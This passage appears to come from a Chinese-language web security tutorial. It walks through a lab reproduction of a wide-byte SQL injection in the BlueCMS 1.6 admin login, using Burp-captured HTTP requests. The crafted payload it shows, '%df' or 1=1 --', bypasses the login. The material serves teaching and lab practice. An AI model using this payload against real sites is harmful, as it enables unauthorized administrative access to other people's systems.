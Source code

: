### 4.3 实验3

bluecms 1.6 版本存在宽字节注入，环境源码：

链接：https://pan.baidu.com/s/11PQqPdopA9bkLBY9gYrpqA 密码：ek6o

漏洞复现

该cms的宽字节注入漏洞存在于http://127.0.0.1/bluecmsv1.6/uploads/admin/index.php.此地址是我们的安装地址，如果是在本地搭建，需要根据你的本地地址和路径来进行判断。

为了更好演示效果，我们进行如下安装。首先根据上面提示的下载地址进行下载源码。

将整个bluecms文件放到phpStudy的WWW目录下，浏览器访问url/bluecms/uploads/install 根据提示进行安装。

![19](https://image.3001.net/images/20180316/15211811425693.png!small)
数据库参数配置

访问http://127.0.0.1/bluecmsv1.6/uploads/admin/login.php?act=login 进入存在注入的页面。

在管理员界面输入登录信息：
![20](https://image.3001.net/images/20180316/15211811512315.png!small)

使用burp suit 进行抓包：
```
POST /bluecmsv1.6/uploads/admin/login.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/bluecmsv1.6/uploads/admin/login.php?act=login
Cookie: PHPSESSID=om57mhu92141dqc3hn8ajce8q1
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
​
admin_name=admin&admin_pwd=123&submit=%B5%C7%C2%BC&act=do_login
```
admin_name就是注入点，可以实现万能密码登录

构造payload
```
POST /bluecmsv1.6/uploads/admin/login.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/bluecmsv1.6/uploads/admin/login.php?act=login
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
​
admin_name=admin %df' or 1=1 -- '&admin_pwd=11&submit=%B5%C7%C2%BC&act=do_login
```
成功登录后台
![21](https://image.3001.net/images/20180316/15211811595369.png!small)
